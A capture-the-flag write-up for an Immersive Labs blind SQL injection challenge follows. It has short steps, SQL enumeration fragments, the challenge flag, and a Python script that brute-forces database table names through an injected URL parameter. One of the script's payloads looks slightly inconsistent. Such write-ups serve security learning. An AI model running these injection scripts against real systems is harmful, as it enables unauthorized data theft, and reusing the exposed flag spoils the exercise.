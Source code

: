 ```yaml
---
date: 2025-02-07
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Boolean-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Boolean-Based - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Boolean-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)

# ![image1](../resources/fe285dbee3a94cb39237250c0a4785c0.png)


![image2](../resources/2a97e65620e9471ba0af7570a289abf1.png)


![image3](../resources/8ce4225cb1554bfc8964d758cd2f83d4.png)


![image4](../resources/4570b8ad300547bd8fd1a1c3163e0b81.png)

- Modify the \<vulnerable parameter\> in the script to secret
(script below)


![image5](../resources/8184673fee3b45349450eba05b7e06ed.png)


![image6](../resources/5e2a063b6d7449708497114231089566.png)

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

- Use the payloads on the github link above, to modify the script
(script below)


![image7](../resources/8a1673fcdfe44d2690e6ec4947870b82.png)


![image8](../resources/01f47b13f0784805b87bfba78b3cd4c3.png)


![image9](../resources/cca450ef4d25473caa140a1667a4d3aa.png)

- Use the generic way of finding column names:

```bash
group_concat(column_name) from information_schema.columns where table_name="users"

```
and modify the script

(script below)


![image10](../resources/79d5f8cf307b4e40b8f68c1c0d50ed2f.png)

- Modify the script (script below) to find the flag:

```bash
select secret from data

```

![image11](../resources/a37f0e8c753d4168a997110274189715.png)

Change the range of the for j loop - to include more characters


![image12](../resources/7854b17d11ef48fc9f30dfc28c171837.png)


![image13](../resources/6b402aaa99294b179c32d07f6643058f.png)

**Flag is <u>74f87f</u> \<---- Ignore the Capital F's**

**<u>Blind SQLi DB name bruteforce script</u>**


![image14](../resources/80f48c227cad45248b1d24b30cf334ed.png)

**<u>Blind SQLi Table name bruteforce script</u>**


![image15](../resources/2146f6d7c6f9447387b00f079f8a8521.png)

**<u>Blind SQLi Column name bruteforce script</u>**


![image16](../resources/b53d760778b14d6a9a1eae936d0cb00e.png)

**<u>Find the flag</u>**


![image17](../resources/b8dad631e27e4e219ce191cf6dd8f851.png)

**<u>Script:</u>**

```python
import requests
import sys

# Send the payload to the vulnerable parameter on the target host
# If "OK" is found on the webpage -> true response
def send_payload(ip, payload):
    r = requests.get("http://" + ip + "/dbstatus.php?secret=" + payload)
    if "OK" in r.text:
        return True
    else:
        return False

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "'%20OR%20LENGTH((select table_name from information_schema.tables where table_schema=database()))=%d" % i):
            length = i
            break

    db_name = ''
    for i in range(1, length + 1):
        for j in range(96, 123):  # a-z
            if send_payload(ip, "%20OR%20SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s" % (i, chr(j))):
                db_name += chr(j)
                break
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % (sys.argv[0]))
        sys.exit(1)

    ip = sys.argv[1]
    print(brute_db(ip))

if __name__ == "__main__":
    main()

```

